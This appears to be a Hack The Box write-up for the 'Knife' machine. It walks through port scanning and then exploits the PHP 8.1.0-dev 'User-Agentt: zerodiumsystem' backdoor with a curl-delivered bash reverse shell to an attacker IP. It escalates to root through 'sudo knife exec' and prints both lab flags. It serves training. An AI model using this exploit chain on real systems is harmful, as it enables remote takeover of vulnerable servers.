










# Knife — Write-Up

| Field | Details |
|---|---|
| **Machine** | [Knife](https://app.hackthebox.com/machines/Knife) |
| **Platform** | [Hack The Box](https://hackthebox.com/) |
| **Operating System** | Linux (Ubuntu) |
| **Difficulty** | Easy |
| **Flags** | 2 (user + root) |

---

## Reconnaissance

### Port Enumeration

```bash
nmap -p- -sCV -T5 10.129.35.188 -oN Knife
```



| Port | Service | Version |
|---|---|---|
| 22/tcp | SSH | OpenSSH 8.2p1 Ubuntu |
| 80/tcp | HTTP | Apache 2.4.41 (Ubuntu) — title: *Emergent Medical Idea* |

---

## Web Enumeration

Port 80 serves the **EMA** (Emergent Medical Idea) website, a corporate landing page with no apparent interactive functionality:



### HTTP Header Inspection

The server's response headers are examined:

```bash
curl -I http://10.129.35.188/
```



The `X-Powered-By` header reveals something critical:

```
X-Powered-By: PHP/8.1.0-dev
```

**PHP 8.1.0-dev** is a development build that was compromised in a supply chain attack. A **backdoor** was injected into PHP's official source code that allows remote code execution via a specially crafted HTTP header: `User-Agentt` (note the double `t`). Any value beginning with `zerodiumsystem(` is evaluated and executed as PHP code on the server.

---

## Initial Access — RCE via PHP 8.1.0-dev Backdoor

### Setting up the listener

A listener is started on the attacking machine:

```bash
nc -lvnp 9001
```

### Triggering the backdoor

The reverse shell is delivered through the malicious header:

```bash
curl http://10.129.35.188/ -H "User-Agentt: zerodiumsystem('bash -c \"bash -i >& /dev/tcp/10.10.14.7/9001 0>&1\"');"
```

| Element | Description |
|---|---|
| `User-Agentt` | Tampered header with double `t` that activates the backdoor |
| `zerodiumsystem(...)` | Prefix that the backdoor evaluates as PHP's `system()` |
| `bash -i >& /dev/tcp/...` | Reverse shell payload pointing back to the attacking machine |



### Shell received



A connection is established as user **`james`**.

---

## User Flag

```bash
whoami
```



```bash
cd /home/james
ls
cat user.txt
```



Flag: **`82d1a1e5b058a21a4814ef02b8df4f63`**

---

## Privilege Escalation

### Sudo permissions enumeration

```bash
sudo -l
```



```
User james may run the following commands on knife:
    (root) NOPASSWD: /usr/bin/knife
```

User `james` can run **knife** as `root` without a password. `knife` is the command-line tool for **Chef**, a configuration management framework. Its `exec` subcommand allows executing arbitrary Ruby code, making it a trivial escalation vector documented on [GTFOBins](https://gtfobins.github.io/gtfobins/knife/).

### Exploitation

```bash
sudo knife exec -E 'exec "/bin/bash"'
```

| Parameter | Description |
|---|---|
| `knife exec` | Runs a Ruby script within Chef's context |
| `-E '...'` | Passes Ruby code directly as an inline argument |
| `exec "/bin/bash"` | Replaces the current process with a bash shell, inheriting root privileges |



```bash
whoami
# root
```

### Root Flag

```bash
cd /root
ls
cat root.txt
```



Flag: **`7db1e3a782bc9623836e522a84814338`**

---

## Summary

| Phase | Technique | Tool |
|---|---|---|
| Enumeration | Port Scan | `nmap` |
| Fingerprinting | HTTP header inspection | `curl -I` |
| Initial access | RCE via PHP 8.1.0-dev backdoor | `curl` + `nc` |
| Privilege escalation | Sudo + GTFOBins (`knife exec`) | `knife` |
